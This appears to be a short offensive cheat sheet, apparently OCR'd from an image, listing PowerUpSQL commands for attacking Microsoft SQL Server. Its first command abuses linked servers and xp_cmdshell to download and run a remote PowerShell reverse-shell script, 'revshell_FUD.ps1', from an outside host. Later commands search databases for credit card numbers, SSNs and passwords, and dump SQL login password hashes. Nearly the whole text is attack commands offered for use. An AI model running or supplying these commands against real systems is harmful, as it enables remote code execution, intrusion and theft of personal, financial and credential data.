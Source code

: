 ```
Get-SQLServerLinkCrawl -Instance db-mssql -Query 'exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''http://10.10.10.10:1433/revshell_FUD.ps1'')"'
```


#### Data mining

```
Get-SQLInstanceDomain | Get-SQLConnectionTest | Get-SQLColumnSampleDataThreaded -Verbose -Threads 10 -Keyword "credit,ssn,password" -SampleSize 2 -ValidateCC -NoDefaults
```


#### Check files

```
Get-SQLInstanceDomain | Get-SQLConnectionTest | Get-SQLDatabaseThreaded -Verbose -Threads 10 -NoDefaults | Where-Object {$_.is_encrypted -eq "TRUE"} | Get-SQLColumnSampleDataThreaded -Verbose -Threads 10 -Keyword "card, password" -SampleSize 2 -ValidateCC -NoDefaults
```


#### Extracting SQL Server Login password hashes

```bash

Get-SQLServerPasswordHash -Verbose -Instance MSSQLSERVER2016\db-mssql -Migrate
```
